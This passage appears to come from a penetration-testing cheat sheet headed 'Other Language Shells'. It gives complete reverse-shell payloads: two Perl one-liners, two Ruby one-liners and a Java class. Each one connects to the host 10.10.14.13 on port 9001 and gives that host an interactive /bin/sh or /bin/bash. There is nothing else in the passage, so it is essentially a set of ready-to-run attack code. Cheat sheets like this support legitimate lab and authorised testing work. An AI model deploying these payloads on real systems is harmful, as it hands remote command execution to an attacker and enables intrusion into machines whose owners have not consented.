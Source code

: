 
---

## Other Language Shells

### Perl
```perl
# Perl reverse shell
perl -e 'use Socket;$i="10.10.14.13";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Alternative Perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.13:9001");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Ruby
```ruby
# Ruby reverse shell
ruby -rsocket -e 'f=TCPSocket.open("10.10.14.13",9001).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Alternative Ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.14.13","9001");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Java
```java
# Java reverse shell
import java.io.*;
import java.net.*;

public class ReverseShell {
    public static void main(String[] args) throws Exception {
        Socket s = new Socket("10.10.14.13", 9001);
        Process p = Runtime.getRuntime().exec("/bin/bash");
        InputStream pi = p.getInputStream();
        InputStream pe = p.getErrorStream();
        InputStream si = s.getInputStream();
        OutputStream po = p.getOutputStream();
        OutputStream so = s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0) so.write(pi.read());
            while(pe.available()>0) so.write(pe.read());
            while(si.available()>0) po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            } catch (Exception e) {}
        }
        p.destroy();
        s.close();
    }
}
```

---
